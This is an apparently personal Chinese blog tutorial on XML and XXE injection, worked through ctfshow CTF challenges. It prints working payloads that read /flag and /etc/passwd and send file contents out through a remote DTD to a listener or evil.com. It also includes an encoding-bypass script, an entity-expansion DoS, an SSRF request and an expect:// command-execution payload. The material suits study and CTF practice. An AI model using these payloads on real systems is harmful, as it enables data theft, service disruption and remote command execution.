


+++
title = "深入浅出xxe"
slug = "xxe-in-depth"
description = ""
date = "2024-09-18T11:52:15"
lastmod = "2024-09-18T11:52:15"
image = ""
license = ""
categories = ["talk"]
tags = ["xxe", "姿势"]
+++

# 0x01 前言

前两天看了一下`xxe`的题目，感觉也可以来补补这个基础知识来，为了这个，还浅浅的了解了一下伪协议

# 0x02 question

## xml了解

> XML（**Extensible Markup Language**，可扩展标记语言）是一种用于存储和传输数据的标记语言，它类似于 HTML，但更加灵活，主要用于定义数据，而不是显示数据。XML 的设计目标是**数据的可移植性**、**可读性**以及**易于扩展**。也就是和序列化差不多的特点(但是不能混为一谈哦)

XML 文档的结构通常由三部分组成：**XML 声明**、**DTD(可选的文档类型定义) **和 **元素(内容部分) **。

写一个`xml`的`demo`来分析这三个结构

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE bookstore SYSTEM "bookstore.dtd">
<bookstore>
  <book category="fiction">
    <title lang="en">The Great Gatsby</title>
    <author>F. Scott Fitzgerald</author>
    <year>1925</year>
    <price>10.99</price>
  </book>
  <book category="non-fiction">
    <title lang="en">Sapiens: A Brief History of Humankind</title>
    <author>Yuval Noah Harari</author>
    <year>2011</year>
    <price>14.99</price>
  </book>
</bookstore>
```

### xml声明

这个东西就类似于，使用C语言编程的

```c
#include <stdio.h>
```

所以也就是基本固定的，只不过有些选项是可选的

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

`standalone="yes"`：表示这个 XML 文档是否依赖外部的 DTD 或其他外部实体。选项有：

- `yes`：表示文档是自包含的，不依赖外部定义。
- `no`：表示文档依赖外部 DTD 或实体。

但是由于我们`xxe`是**xml外部实体注入**(~~等会说~~)，所以肯定是不写这个或者是写`no`

### DTD

而这里又分为内部实体\外部实体\字符实体\参数实体，都是为了方便做参数替换来使用的，可以帮助简化和减少代码冗余。然后再使用`&`进行调用(和C一样)

```xml
<!DOCTYPE user [
<!ENTITY file SYSTEM  "file:///flag">
]>
```

一个很普通的DTD，这里主要就是想强调一个点

```xml
<!DOCTYPE 根元素 [嵌套实体]>
```

这里是要写根元素的，而不是想怎么写就怎么来(~~实际上好像不这么写也能生效~~)

#### 内部实体

```xml
<!DOCTYPE 根元素 [元素声明]>
```

比如说

```xml
<!DOCTYPE example [
    <!ENTITY author "Linjiang Zheng">
]>
<example>
    <author>&author;</author>
</example>
```

那么此刻`author`表单的内容就是`Linjiang Zheng`

#### 外部实体

```xml
<!ENTITY 实体名称 SYSTEM "URL or path">
```

还是写个`Demo`

```xml
<!DOCTYPE llw [
<!ENTITY file SYSTEM  "file:///flag">
]>
<user>
	<username>&file;</username>
	<password>1</password>
</user>
```

就比如我们常见的，直接利用协议进行`flag`的读取



这些协议都可以使用

#### 参数实体

```xml
<!ENTITY % 实体名称 SYSTEM "URL or path">
```

与外部实体略有不同

```xml
<!DOCTYPE a [
    <!ENTITY % name SYSTEM "file:///etc/passwd">
    %name;
]>
```

注意这种写法只可以在`dtd`文件中使用,也就是打无回显的`xxe`

#### 字符实体

##### 预定义

这些是XML标准中已经定义好的一些常见字符，例如：

```xml
&lt; 表示小于号 <
&gt; 表示大于号 >
&amp; 表示与号 &
&quot; 表示双引号 "
&apos; 表示单引号 '
```

##### 数字

- **十进制数字实体**：形式为 `&#decimal;`，其中 `decimal` 是字符的十进制Unicode码点。
- **十六进制数字实体**：形式为 `&#xhex;` 或 `&#Xhex;`，其中 `hex` 是字符的十六进制Unicode码点。

比如说

```xml
<user>&#60;</user>
<user>&#x3C;</user>
```

都表示`<`

| 原字符 | 预定义   | 十六进制参考 | 十进制参考 |
| ------ | -------- | ------------ | ---------- |
| `"`    | `&quot;` | `&#x22;`     | `&#34;`    |
| `&`    | `&amp;`  | `&#x26;`     | `&#38;`    |
| `'`    | `&apos;` | `&#x27;`     | `&#39;`    |
| `<`    | `&lt;`   | `&#x3C;`     | `&#60;`    |
| `>`    | `&gt;`   | `&#x3E;`     | `&#62;`    |
|        |          |              |            |

这张表格由于解析问题只能手做服了


#### PCDATA&&CDATA

**PCDATA** 是 “Parsed Character Data” 的缩写，表示**可解析的字符数据**。也就是说，PCDATA 中的字符会被解析器解析，并根据 XML 或 HTML 的语法规则进行处理。

在 PCDATA 中，某些字符（如 `<`、`&` 等）不能直接使用，必须进行转义或作为标签来使用。例如 `<` 被解析为标签的开始，`&` 被解析为实体引用的开始。

```xml
<note>
  <to>Tove</to>
  <message>Hello,&#60;world&#62;</b>!</message>
</note>
```

CDATA 是 “Character Data” 的缩写，表示**不可解析的字符数据**。也就是说，CDATA 部分的内容会被当作纯文本处理，不会进行解析。

CDATA 区块中的所有字符，包括特殊字符（如 `<`、`>` 和 `&`），都会被当作原始文本保留，而不是作为标签或实体解析。

```xml
<message><![CDATA[Hello, <b>world</b>!]]></message>
```

| 特性             | PCDATA                                             | CDATA                                            |
| ---------------- | -------------------------------------------------- | ------------------------------------------------ |
| **解析**         | 解析器会解析 PCDATA 的内容，并识别标签或实体引用。 | CDATA 中的内容不会被解析，全部作为文本处理。     |
| **使用特殊字符** | 必须对特殊字符（如 `<` 和 `&`）进行转义。          | 特殊字符可以直接使用，不需要转义。               |
| **典型用途**     | 适用于普通文本和可解析的标记内容。                 | 适用于代码片段或不希望被解析的文本内容。         |
| **定义形式**     | 直接包含在元素内容中。                             | 使用 `<![CDATA[...]]>` 声明来包含数据。          |
| **嵌套标签**     | 可以解析嵌套标签（如 `<b>`），并按标签的定义渲染。 | 嵌套标签不会被解析成标记，而是作为文本内容显示。 |

### 元素

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>
```

元素顺序是固定了的，所以在书写的时候也必须按着这个写，然后捏插入特殊符号也不能直接写

xml的书写特性

- 所有XMl元素必须有一个闭合标签
- XMl标签对大小写敏感
- XMl必须正确嵌套
- XML属性值必须加引号
- 实体引用
- 在XMl中，空格会被保留

## xxe

看了上面的东西其实也就会写个最简单的请求，不要晕了

xxe是**xml外部实体注入漏洞**，那么既然是外部实体，所以其他的也就没有那么的重要，既然是注入那么这里有张图可以参考



那么漏洞原理是什么呢

> **让服务端在解析XML文档时，对声明的外部实体进行引用，实际触发攻击者预定的文件、网络等资源操作，甚至是执行系统命令**

这里的Demo就选择ctfshow `web`入门的`xxe`模块吧

### Demo1

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__); 
```

可以进行外部实体加载，并且正常读取`xml`文档，读取`ctfshow`元素，根元素自己写

写个`poc`

```xml
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<wi><ctfshow>&xxe;</ctfshow></wi>
```

直接打入即可，刚写的时候可能是容易写错的，我就写错了，所以建议找个在线`xml`辨别器

### Demo2

**web374**

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);
```

这里一看就没有回显了，所以payload其实不用太大的改变，只是我们需要进行dtd的远程书写一下

现在自己vps上面写一个`test.dtd`,我建议是在dtd里面写多些关键文件，这样子是不会被`pass`的

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ip:9999/?x=%file;'>">
%eval;
%exfiltrate;
```

payload

```xml
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ip/test.dtd">%xxe;]>
<root><ctfshow>123;</ctfshow></root>
```

然后监听端口`9999`即可,这里的IP必须写能够进行`web`服务的,如果是开的特殊端口的话要把端口加上

其实我自己写的时候卡了一会，因为我不理解为什么定义参数实体的时候写成`&#x25;`而不是直接就写`&#x25`,后来想了想问了几个师傅，其实应该算是一种固定格式吧，因为参数实体的定义是

```xml
% name
这里为了正常的解析
&#x25; 也就是使用了16进制字符实体，这里的;是为了隔断解析方式
```

比如前面解析的时候是用的Unicode，但是我后面是需要正常解析才行的，所以就用`;`进行隔断

可能还有一个小小的疑惑(~~第二天早上突然发现~~)就是为什么没有进行`&xxe;`的实体调用，我看网上很多`payload`都是这么写的，但是我这里三个实体都是**参数实体**，**直接就调用了**，所以在他们进行**外部实体**调用的时候我随便写个123也可完成`xxe`

### Demo3

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__); 
```

那么当禁用了http的时候我们怎么操作呢，很简单，写个脚本来编码绕过即可

```python
import requests

url="https://91baacfb-f234-4f53-bc4f-412652b34241.challenge.ctf.show/"
data='''
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://27.25.151.48:12138/test.dtd">%xxe;]>
<root>123;</root>
'''.encode('utf-16')
r=requests.post(url,data,verify=False)
```

其实这里的话这个元素怎么猜，这就是能猜了呀，因为本身是`ctfshow`的本台要么就是`ctfshow`，要么就是`root`这些默认的,不写声明也能`xxe`大家应该知道吧

### Demo4

**ctfshow web378**

这里直接默认就登录成功了，也不需要爆破，但是没有进入理想的页面,抓包发现

```js
Rsponse:

function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

这里看到源码,从这里也可以浅浅的看到

```js
var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
```

`xxe`确实是一种注入的攻击手法

看到是进行`xml`文档的登录，所以直接`xxe`，这里看一下发包吧主要就是也有一些地方要改

```
Request:

POST /doLogin HTTP/1.1
Host: 75a0196a-e978-4264-86a2-1cccf066c2a6.challenge.ctf.show
Cookie: cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close
Content-Type: application/xml;charset=utf-8
Content-Length: 122

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>123</password></user>
```

这四个Demo基本就覆盖了一些类型，当然肯定有其他的进攻点，但是手法思路都是这个，只需要改改协议什么的就可以了

还有就是这四个Demo的，有些特别是blind不用和我写的一样，我其实发现了很多写法，可以自己尝试一下

## 参考payload

### 文件读取

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

### blind 文件读取

```xml
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://evil.com/xxeoobdetector"> %xxe;
]>
<foo/>
```

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % def "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?data=%file;'>">
%def; %send;
```

### DDoS

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY dos "dos">
    <!ENTITY dos1 "&dos;&dos;&dos;&dos;&dos;">
    <!ENTITY dos2 "&dos1;&dos1;&dos1;&dos1;&dos1;">
    <!ENTITY xxe "&dos2;&dos2;&dos2;&dos2;&dos2;">
]>
<foo>&xxe;</foo>
```

### ssrf\include

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://192.168.1.1:8080/">
]>
<foo>&xxe;</foo>
```

### RCE 

```xml
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```

## fix

直接禁用外部实体加载即可，或者是bypass这方面多点关键词

# 0x03 小结

这篇文章我本人觉得写的很烂，因为并没有从代码中去实际的探寻其中的奥秘，而且网上参考资料也很少，所以这里给十月的我立一个**flag**，从某个CVE中再度解析`xxe`

# 0x04 reference

网上的大部分文章都有看，感谢师傅们！
